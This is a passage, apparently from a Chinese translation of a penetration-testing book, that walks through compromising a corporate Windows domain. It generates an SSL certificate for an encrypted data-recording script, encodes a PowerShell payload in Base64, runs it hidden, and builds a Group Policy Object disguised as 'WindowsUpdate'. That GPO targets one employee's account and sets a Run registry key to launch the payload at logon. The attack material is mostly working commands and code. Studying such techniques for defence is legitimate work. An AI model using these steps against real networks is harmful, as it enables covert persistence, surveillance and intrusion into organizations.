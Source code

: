 此脚本依赖于OpenSSL来加密传输的数据，因此我们首先需要生成一个自签名的SSL证书（或者更好的是，如果您不介意为前置服务器注册DNS名称(参阅https://letsencrypt.org/getting-started/)，则生成一个免费的可信Let'sEncrypt证书）：
```
root@FrontGun:~# openssl req -new -x509 -keyout server.pem -out
server.pem -days 365 -nodes
Generating a 2048 bit RSA private key
..................................+++
..................................+++
writing new private key to 'server.pem'
```

![](chap5/chap5-19.jpg)

太棒了！这个小动作非常有效！我们需要使用Base64编码将此脚本转换为一行代码，以便它可以放入GPO设置并配置到注册表项中：
```
PS> $command = get-content .\record.ps1
PS> $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
PS> $encodedCommand = [Convert]::ToBase64String($bytes)
PS> write-host $encodedCommand
dwBoAGkAbABlACgAJAB0AHIAdQBlACkAIAB7ACAAIAAkAGkAKwArADsAIAA
kAGIAcgBvAHcAcwBlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAF
MAeQBzAHQAZQBtAC4ATgBlAHQALg...
```

要启动此代码，我们只需要执行以下命令:
```
Powershell.exe -NonI -W Hidden -enc aQBtAHAAbwByA[…]
```

攻击载荷已经准备好了，所以让我们专注于GPO创建过程。首先，我们在PowerShell中激活并导入组策略模块。我们将这些指令放在PS函数中，以便稍后通过代理轻松调用它们：
```
function initialize-gpo(){
 Add-WindowsFeature GPMC
 import-module group-policy
 write-output "Initialization Done!"
}
```

然后我们创建一个名为WindowsUpdate的新GPO，并以GBHR域控制器SR0088为目标。
```
Function create-gpo() {
 New-GPo -name WindowsUpdate -domain GBHR.CORP -Server SR0088.GBSHR.CORP
 
 #We only want to target Elise’s account on the computer SPHR0098, so we restrict the scope of this GPO:
 Set-GPPermissions -Name "WindowsUpdate" -Replace -PermissionLevel 
 
 GpoApply -TargetName "ejansen" -TargetType user Set-GPPermissions -Name "WindowsUpdate" -Replace -PermissionLevel  
 GpoApply -TargetName " SPHR0098" -TargetType computer Set-GPPermissions -Name "WindowsUpdate" -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group

 #Finally, we link it to the GBHR domain to activate it:
 New-GPLink -Name WindowsUpdate -Domain GBHR.CORP -Target "dc=gbhr,dc=corp" -order 1 -enforced yes

 #We then instruct the GPO we created to set up a ‘Run’ registry key the next time Elise’s tablet polls new GPO settings (every 20 minutes).The ‘Run’ registry key automatically executes an executable or command at logon. We pass it the PS payload we prepared earlier:
 Set-GPRegistryValue -Name "WindowsUpdate" -key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -value "
 
 powershell.exe -NoP -sta -NonI -Enc aQBtAHAAbwByA […]"
 write-output "Created GPO successfully!"
 #End of create-gpo function
}
```
